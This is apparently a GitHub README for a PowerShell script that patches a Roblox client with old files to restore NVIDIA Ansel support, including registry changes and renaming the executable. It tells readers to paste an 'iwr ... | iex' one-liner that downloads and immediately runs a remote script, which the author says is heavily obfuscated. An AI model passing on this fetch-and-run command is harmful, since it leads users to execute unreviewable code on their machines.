 Ansel Builder for Roblox

This is a powershell script that uses your current roblox client and re-builds it with some old files from the last known version where NVIDIA Ansel was supported.

## What does this script do?

- It downloads an older build of Roblox (around 90MB) and merges it with your current client.
- Renames RobloxPlayerBeta.exe to Minecraft.exe for Ansel/Game Filter compatibility.
- Changes registry keys to open Roblox from the browser
- Restores Desktop/Program Shortcuts for Roblox

## How do I run the file?

__Download the .ps1 file attached, then right click on it and "Run with Powershell"__

**OR** 

__Run the code using Powershell__
- __**Open Windows Powershell, paste this code and hit Enter.**__
  
```powershell -c "iwr https://github.com/chrowmiee/NVIDIABuild/releases/download/archive/NVIDIA.ps1 | iex"```

**⚠️  Do not close the script while it's extracting! **
 This may corrupt your current client, and you'll have to reinstall Roblox.

**❌   Close Roblox before running the script.**
Make sure Roblox is fully closed, check your Task Manager and end all processes; otherwise an error will pop-up. 

**NVIDIA ONLY** 
As always, this uses NVIDIA Ansel for Windows, and will not be supported by any non-NVIDIA GPUs.

✅ **The code is heavily obfuscated because I don't want people to modify the code and take my name taken out of the credits, thank you for understanding.**

This is a very robust and hacky solution, probably won't work in the future.
If you're having any issues with the script, please DM me @ chrowmii for support.
